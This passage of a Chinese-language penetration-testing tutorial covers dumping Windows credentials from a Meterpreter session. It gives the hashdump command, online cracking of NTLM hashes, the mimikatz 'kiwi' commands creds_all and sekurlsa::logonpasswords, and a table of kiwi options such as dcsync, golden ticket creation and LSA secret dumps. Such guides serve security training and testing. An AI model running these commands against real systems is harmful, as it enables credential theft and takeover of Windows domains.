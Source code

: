 在线解析工具:  [https://www.cmd5.com/](https://www.cmd5.com/)

### 方法三: 导出密码哈希
```
run hashdump

# 如果成功的话, 输入完成后就可以直接看到出现的站好和密码
```
还是需要看NTLM.
在线解析工具:  [https://www.cmd5.com/](https://www.cmd5.com/)

### 方法四:使用kiwi模块获取
> kiwi_cmd 模块可以让我们使用mimikatz的全部功能， mimikatz 的命令直接在kiwi_cmd里直接使用


```
 load kiwi
```
```
直接获取密码, 输入:
creds_all

# 也可以用下面这个, 直接获取密码
kiwi_cmd sekurlsa::logonpasswords
```

## kiwi 命令
| kiwi参数和描述 |
| --- |
| creds_all               列举所有凭据 |
| creds_kerberos    列举所有kerberos凭据 |
| creds_msv            列举所有msv凭据 |
| creds_ssp             列举所有ssp凭据 |
| creds_tspkg        列举所有tspkg凭据 |
| creds_wdigest    列举所有wdigest凭据 |
| dcsync                通过DCSync检索用户帐户信息 |
| dcsync_ntlm      通过DCSync检索用户帐户NTLM散列、SID和RID |
| golden_ticket_create            创建黄金票据 |
| kerberos_ticket_list              列举kerberos票据 |
| kerberos_ticket_purge        清除kerberos票据 |
| kerberos_ticket_use             使用kerberos票据 |
| kiwi_cmd                               执行mimikatz的命令，后面接mimikatz.exe的命令 |
| lsa_dump_sam                    dump出lsa的SAM |
| lsa_dump_secrets               dump出lsa的密文 |
| password_change              修改密码 |
| wifi_list                                 列出当前用户的wifi配置文件 |
| wifi_list_shared                   列出共享wifi配置文件/编码 |
